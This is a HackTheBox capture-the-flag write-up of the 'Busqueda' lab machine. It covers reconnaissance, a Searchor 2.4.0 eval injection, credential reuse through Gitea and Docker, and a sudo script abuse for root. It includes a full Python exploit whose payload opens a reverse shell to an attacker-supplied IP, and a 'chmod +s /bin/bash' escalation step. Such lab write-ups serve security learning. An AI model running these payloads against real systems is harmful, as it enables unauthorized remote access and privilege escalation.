# HackTheBox - Busqueda Writeup


## Nmap
Like always, I’m going to scan the IP Address by using [nmap](https://nmap.org/) but I’m going to scan the full port first. Then, I’m going to scan the only open ports.

```sql
nmap -p22,80 -sCV -oN nmap/busqueda 10.10.11.208

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)

80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap scan result is completed. There are just `two` port opens which are `SSH, HTTP`.  Well, I'm going to ignore `port 22` which is `SSH`, since I don't have any credentials.

On top of that, nmap also found the `hostname` called `searcher.htb` and I'm going to add that to the `/etc/hosts` file.



## Http: searcher.htb
With that information in hand. I've navigated to `port 80` through my browser and I've been greeted with this page. It's a simple web application with a dropdown of `search engine` and an input prompt.


At the bottom of this page. It shows the application name and the build version, which is `Searchor 2.4.0` and it's linking into this [github](https://github.com/ArjunSharda/Searchor) repository.



## Foothold: Searchor 2.4.0
With a simple search on Google about this particular version. I came across this [github](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/tree/main) repository which included the `POC`.

Below is the vulnerable code that leads this exploit to work. It's using the `eval` function and follow with `{engine}` and `{query}` as input.



So, I make a simple exploit in python based on this [POC](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/tree/main) by using `python reverse shell` as the payload.

```python
#!/usr/bin/env/python3
# Searchor 2.4.0 POC
# Description:
#   https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b
#   https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/blob/main/README.md
#   https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/tree/main
#   https://security.snyk.io/package/pip/searchor/2.4.0

import requests
import sys
#p = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def send_req(url, ip, port):
    payload = "', exec(\"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('{}',{}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);\"))#".format(ip, port)
    data = {'engine':'Accuweather','query':f'{payload}'}
#    requests.post(url, data=data, proxies=p)
    requests.post(url, data=data)

if __name__=="__main__":
    try:
        url = sys.argv[1].strip()
        ip = sys.argv[2].strip()
        port = sys.argv[3].strip()
    except IndexError:
        print("[-] Usage: {} <url> <attacker_ip> <attacker_port>".format(sys.argv[0]))
        print('[-] Example: {} "http://example.com/search" "10.10.10.10" "1111"'.format(sys.argv[0]))
        sys.exit(1)

    print("[!] Sending the payload...")
    send_req(url, ip, port)

```

## Shell: svc
Upon successfully executing the exploit. I'm in as a `svc` user and the best thing to do is [upgrade](https://shafiq-aiman.gitbook.io/notes/misc/upgrade-reverse-shell) my shell. On top of that, I'm in the `/var/www/app` directory.



While listing the `/var/www/app` directory. I found a hidden directory called `.git` and a `config` file in there.



The `config` file, it's contains the password of a user called `cody`  and a subdomain called [gitea](https://about.gitea.com/). So, I added that into my `/etc/hosts` file. 





## Http: gitea.searcher.htb (cody)
Then, I navigated through the browser and successfully login as `cody`. Unfortunately, there's nothing that I found interesting. 



However, there are `two` users on it, which is the user that I used for login now and the `administrator` user.



Now, I'm curious to see if this user called `cody` exists on the box. So, I'll check the user and found out, only `two` users that exit.



## SSH: svc
From the nmap scan result above. It shows the `port 22` which is `SSH`, and it's open. Then, I'll try the credentials that I found earlier alongside the `svc` user and it works.



Since I have the password of this user. I'm going to check the sudo permission with the `sudo -l` command. Fair enough, I can run a python script that is located in the `/opt` directory called `system-checkup.py`.



### SSH: system-checkup.py help
When I ran it, it's listing `three` possible commands that I could use. However, one of the commands which is `full-checkup` seems like not working or it's just a print function.



### SSH: system-checkup.py docker-ps
I executed the `docker-ps` command and it's showing the docker process on the machine. Surprisingly, one of the docker `containers` was an image of the `mysql` database. I'll try connecting to the `mysql` and it's failed.



### SSH: system-checkup.py docker-inspect
When I executed the `docker-inspect` command, it throws an error that require some arguments.



So, I'm searching in the ocean of the internet and found this [article](https://docs.docker.com/engine/reference/commandline/inspect/) that talks about this particular command which is `docker-inspect`.

Then, I executed this command to dump the `config` file of the `mysql` database by appending the `container id` into it.



Luckily, I found the admin credentials of the `mysql` database. However, when I'll try to connect to it. It's failed. So, I'm going to execute another command to show the `docker` ip address.



### SSH: mysql
I managed to connect to it as the `root` user by supplying this ip address `172.19.0.3` as a host. Unfortunately, I can't find anything that interesting, and feels like I'm stuck.



## Http: gitea.searcher.htb (administrator)
Then, I'll try all the credentials that I found earlier on any input that I can find. Luckily, I managed to log in as an `administrator` user on the `gitea` page. 



On top of that, `administrator` has a repository called `scripts` that contains a file called `system-checkup.py` and `full-checkup.sh`, which is `svc` user can execute it with sudo permission.

### Http: gitea.searcher.htb (full-checkup.sh)
However, when I ran the `full-checkup` command earlier, it did not work and I thought maybe it was just a print function that got executed. So, I'll check that file, and I was completely wrong.



### Http: gitea.searcher.htb (system-chekup.py)
I ended up checking the `system-chekup.py` source code and I spotted the problem in `line 47`. If the user supplies the `full-checkup` command, it's going to execute a bash file named `full-checkup.sh` in the current directory.



To prove it, I'm going to execute the command in different directories. First, at the `/home/svc/` directory, and second, it's going to be in the `/opt/scripts/` directory, where's the scripts located.



## PrivEsc: system-checkup.py
From the result above, I can create a malicious bash file called `full-checkup.sh` and execute with the sudo permission. 

I'm going to use a simple payload such as `chmod +s /bin/bash`, which is turn a `/bin/bash` binary into a Set UID binary. Then, I can execute as `/bin/bash -p` to get the `root` shell.



